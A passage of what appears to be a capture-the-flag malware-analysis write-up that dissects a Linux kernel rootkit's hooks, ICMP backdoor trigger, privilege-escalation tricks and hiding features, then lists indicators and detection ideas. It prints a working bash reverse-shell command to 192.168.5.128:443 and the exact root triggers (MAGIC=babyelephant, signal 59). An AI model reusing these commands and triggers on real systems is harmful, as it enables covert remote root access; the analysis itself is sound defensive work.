   

   

   The needle is formatted like an environment variable, `MAGIC=babyelephant`. A process started with that variable and then calling `getuid()` becomes root. I did not confirm which memory region the hook reads, so I won't claim whether it is the environment or the command line.

**Answer:** `babyelephant`

> **Lesson learned.** The full needle is `MAGIC=babyelephant`, but the platform accepts only the distinctive word `babyelephant`. I initially misread the separator as a hyphen. Always zoom into the string before copying it.

---

## Q9. Number of hooks installed by `become_root_init`

**Approach.** `become_root_init` is a single call. The count is the second argument.

```c
return fh_install_hooks(hooks: hooks, count: 0xAu);
```



The disassembly confirms it with `mov esi, 10 ; count`.



The `hooks[10]` array lists the ten hooked syscalls:

| # | Hooked syscall |
|---|---|
| 1 | `__x64_sys_kill` |
| 2 | `__x64_sys_getuid` |
| 3 | `__x64_sys_getpgid` |
| 4 | `__x64_sys_getpgrp` |
| 5 | `__x64_sys_getsid` |
| 6 | `__x64_sys_sched_getaffinity` |
| 7 | `__x64_sys_sched_getparam` |
| 8 | `__x64_sys_sched_getscheduler` |
| 9 | `__x64_sys_sched_rr_get_interval` |
| 10 | `__x64_sys_sysinfo` |



Only `hook_kill` and `hook_getuid` were reviewed. The other eight are cheap, rarely-monitored syscalls and probably offer alternative trigger paths, but I did not read them.

**Answer:** `10`

---

## Q10. C2 IPv4 address

**Approach.** Open `spawn_revshell`, the function that launches the reverse shell. The disassembly loads the string arguments for `snprintf` into registers: `r9` holds `"443"` and `r8` holds `"192.168.5.128"`.



The pseudocode shows the same strings as the format arguments (see Q15).

**Answer:** `192.168.5.128`

---

## Q11. C2 port

**Approach.** The same `snprintf` call passes the port as a string, the last format argument.

```c
snprintf(cmd, 0x300u,
  "bash -c 'PID=$$; kill -59 $PID; exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1' &",
  "firefox-updater",   // %s: process name
  "192.168.5.128",     // %s: C2 host
  "443");              // %s: C2 port
```

The resulting command is:

```bash
bash -c 'PID=$$; kill -59 $PID; exec -a "firefox-updater" /bin/bash &>/dev/tcp/192.168.5.128/443 0>&1' &
```

Port 443 is a common choice to blend in with HTTPS traffic, although the traffic itself is a raw interactive shell, not TLS.

**Answer:** `443`

---

## Q12. Protocol hooked for the backdoor trigger

**Approach.** `hiding_icmp_init` (in `icmp.c`) installs a single hook, and `hook_icmp_rcv` is the replacement for the kernel's `icmp_rcv`.



Inside `hook_icmp_rcv`, the first check reads byte 9 of the IPv4 header, the Protocol field. A value of `1` means ICMP.

```c
v5 = &head[network_header];      // IPv4 header
if ( !v4 && v5[9] == 1 )         // Protocol == 1 → ICMP
```



**Answer:** `icmp`

---

## Q13. Magic ICMP sequence number (decimal)

**Approach.** The hook only reacts when all of these are true:

| Check | Code | Meaning |
|---|---|---|
| Protocol | `v5[9] == 1` | ICMP |
| Source IP | `*(DWORD*)(v6 + 3) == trigger_ip` | Source address (offset 12) equals `192.168.5.128`, converted with `in4_pton` |
| Type | `*v8 == 8` | Echo request (ping) |
| Sequence | `*(WORD*)(v8 + 3) == 0xCF07` | 16-bit field at byte offset 6 of the ICMP header |



**Byte order.** In the ICMP header, byte offset 6 is the Sequence Number (type 1 byte, code 1 byte, checksum 2 bytes, identifier 2 bytes, sequence 2 bytes). It is stored in network byte order.

| Step | Value |
|---|---|
| Constant in the decompiler | `0xCF07` (that is 52,999 if read naively) |
| Bytes in memory (little-endian load) | `07 CF` |
| Network-order value | `0x07CF` |
| Decimal | **1999** |

Because x86 reads the two bytes in little-endian order, `0xCF07` in the code means the packet's sequence field contains `07 CF`, i.e. `0x07CF` = 1999.

The hook does not inspect the payload; only the source IP, the type and the sequence number matter.

> **Lesson learned.** Converting `0xCF07` directly to decimal was marked wrong. Fields in network packets must be byte-swapped before converting, the same trick as in Q7.

**Answer:** `1999`

---

## Q14. Function queued when the trigger matches

**Approach.** After the checks pass, the hook allocates a `work_struct`, sets its function pointer to `spawn_revshell`, and queues it on the system workqueue. The shell therefore runs in kernel worker context, not in the context of the packet handler.

```c
v9 = kmalloc_cache_noprof(kmalloc_caches[5], 2080, 32);
if ( v9 )
{
    v9[3] = spawn_revshell;     // work_struct.func
    v10 = system_wq;
    *v9 = 0xFFFFFFFE00000LL;    // work_struct.data
    v9[1] = v9 + 1;             // list_head (init)
    v9[2] = v9 + 1;
    queue_work_on(0x2000, v10);
}
return orig_icmp_rcv(skb);      // packet continues through normal processing
```


The call to `orig_icmp_rcv` at the end means the system still processes (and replies to) the ping normally, which keeps the backdoor quiet.

**Answer:** `spawn_revshell`

---

## Q15. Process name used for the reverse shell

**Approach.** The `snprintf` format string contains `exec -a "%s"`. Bash's `exec -a` sets `argv[0]` of the new process, which is the name shown by `ps` and in `/proc/<pid>/cmdline`. The first `%s` argument is the disguise.



`firefox-updater` looks like a legitimate browser updater.

The rest of the function (from the decompiled code) cleans up after itself:

1. Records the highest PID currently in the task list.
2. Runs `/usr/bin/setsid /bin/bash -c "<cmd>"` through `call_usermodehelper`.
3. Sleeps 1.5 seconds.
4. Walks the task list again. Any new process whose name contains `firefox-updater` or `setsid` is added to the hidden-PID list, along with its parent's PID.

**Answer:** `firefox-updater`

---

## Full attack chain

1. The module loads. `init_module` installs 14 feature hooks and then hides itself from the module list.
2. A kernel thread, `zer0t`, is started and hidden. Judging by the `taint_mask_ptr` and `cleaner_thread` names, its job is to clear the kernel taint flag so the system does not look like it loaded an out-of-tree module.
3. The attacker sends an ICMP echo request with sequence number **1999** from `192.168.5.128`.
4. `hook_icmp_rcv` matches it and queues `spawn_revshell`.
5. `spawn_revshell` runs `setsid bash -c '... exec -a "firefox-updater" /bin/bash &>/dev/tcp/192.168.5.128/443 0>&1'`.
6. The new shell sends itself signal **59**. `hook_kill` turns that into root and hides its PID.
7. After 1.5 s, `spawn_revshell` hides any new `firefox-updater` / `setsid` processes.
8. Connections involving `192.168.5.128` or port **18081** are filtered out of `/proc/net/tcp*`, so `netstat` and `ss` do not list them.
9. A local process started with `MAGIC=babyelephant` can become root by calling `getuid()`.

## Answer summary

| # | Question | Answer |
|---|---|---|
| 1 | SHA256 | `0B8ECDACCF492000F3143FA209481EB9DB8C0A29DA2B79FF5B7F6E84BB3AC7C8` |
| 2 | Initialization function | `init_module` |
| 3 | Feature-init calls | `15` |
| 4 | Anti-forensics thread name | `zer0t` |
| 5 | Max hidden PIDs | `32` |
| 6 | Last call in `init_module` | `module_hide_current` |
| 7 | Hidden TCP port | `18081` |
| 8 | Magic word | `babyelephant` |
| 9 | Hooks installed by `become_root_init` | `10` |
| 10 | C2 IPv4 | `192.168.5.128` |
| 11 | C2 port | `443` |
| 12 | Trigger protocol | `icmp` |
| 13 | Magic sequence number | `1999` |
| 14 | Queued function | `spawn_revshell` |
| 15 | Reverse-shell process name | `firefox-updater` |

## Indicators of compromise

| Type | Value |
|---|---|
| SHA256 | `0B8ECDACCF492000F3143FA209481EB9DB8C0A29DA2B79FF5B7F6E84BB3AC7C8` |
| C2 | `192.168.5.128:443` |
| Trigger | ICMP echo request from the C2 IP, sequence number 1999 |
| Process name | `firefox-updater` (spawned via `setsid bash`) |
| Kernel thread | `zer0t` |
| Hidden TCP port | 18081 |
| Privilege-escalation string | `MAGIC=babyelephant` |
| Privilege-escalation signal | `kill -59` |

## Detection ideas

- **Network.** Alert on ICMP echo requests with sequence number 1999, and on outbound connections to `192.168.5.128:443` from `bash`. Because the rootkit hides sockets from the host, network-side logging is the reliable view.
- **Host.** Look for a `firefox-updater` process that does not map to a Firefox binary, and for a kernel thread named `zer0t`.
- **Memory forensics.** Compare the loaded-module list against other sources (for example, sysfs and kallsyms), and review ftrace hooks and unexpected `ftrace_ops` registrations. The module is unlinked from the normal list, so a memory image finds what `lsmod` cannot.

## Mistakes and fixes during the challenge

| Task | What went wrong | Fix |
|---|---|---|
| 2 | Submitted `singularity_init` | The accepted name is the exported symbol, `init_module` |
| 3 | Counted 14 | The accepted count includes `module_hide_current`, so 15 |
| 8 | Misread `=` as `-` and submitted the whole needle | Platform wants `babyelephant` |
| 13 | Converted `0xCF07` directly | Byte-swap network-order fields first: `0x07CF` = 1999 |
| 7 | Constant displayed as signed `-24250` | Switch to hex (`0xA146`), then byte-swap to `0x46A1` = 18081 |
